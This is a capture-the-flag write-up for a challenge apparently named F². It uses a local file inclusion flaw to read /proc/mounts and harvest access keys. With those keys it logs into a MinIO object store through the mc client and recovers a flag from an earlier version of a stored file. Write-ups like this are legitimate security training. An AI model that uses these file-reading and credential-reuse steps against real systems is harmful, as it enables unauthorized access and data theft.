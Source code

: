 # F² Writeup

In this challenge, we’re given a parameter `f` that is vulnerable to **LFI**.  
At first glance, reading common files doesn’t reveal anything useful. But there’s a trick... (weel, not every LFI gives a flag directly)

Accessing the `/proc/mounts` file can sometimes give interesting insights into mounted volumes or filesystems:

👉 [https://f2.tekup-securinets.org/?f=/proc/mounts](https://f2.tekup-securinets.org/?f=/proc/mounts)

In the output, we notice some suspicious and uncommon files:

```
travler-gate  
travler-key  
travler-ep  
inventory-99
```

Let’s grab those files using LFI.

After fetching the `travler-gate`, `travler-key`, and `travler-ep`, we find what look like **access credentials** (possibly for a service).

Next, try sending a request to the IP used in the challenge:

```bash
curl -v http://185.91.127.50:13131
```

And here's the response:

```
< Server: MinIO
...
< HTTP/1.1 403 Forbidden
```

The `Server: MinIO` header tells us that we’re dealing with a MinIO instance — a self-hosted S3-compatible object storage service.

This confirms that the **access and secret keys** we found earlier belong to this MinIO service.

## Accessing MinIO

Download the MinIO client `mc` from the official site:  
👉 [Download Minio here](https://min.io/docs/minio/linux/index.html)

Then, configure it with the keys we found:

```bash
mc alias set traveler http://185.91.127.50:13131 ACCESS_KEY SECRET_KEY
```

Now, list the available buckets:

```bash
mc ls traveler
```

You should see a bucket named `inventory-99`.

## Step 4: Explore the Bucket

Let’s list the contents:

```bash
mc ls traveler/inventory-99
```

There’s a file named `item`. Download and inspect it:

```bash
mc cp traveler/inventory-99/item .
cat item
```

At first glance, it looks like just a list of inventory items... nothing special.

```
- id: 001
  name: Rusty Sword
  type: Weapon
  rarity: Common
  quantity: 1

- id: 002
  name: Healing Potion
  type: Consumable
  rarity: Uncommon
  quantity: 3

- id: 003
  name: Silver Key
  type: Quest Item
  rarity: Rare
  quantity: 1
```

But wait, one of the S3 features is versioning, and MinIO supports **versioning** on buckets. That means previous versions of the files might still be accessible.

Let’s list all versions of the `item` file:

```bash
mc ls --versions traveler/inventory-99
```

Copy and check the **first version** of the file:

```bash
mc cp --vid <version-id> traveler/inventory-99/item flag
cat flag
-> securinets{kk12121212121212121212kk}
```
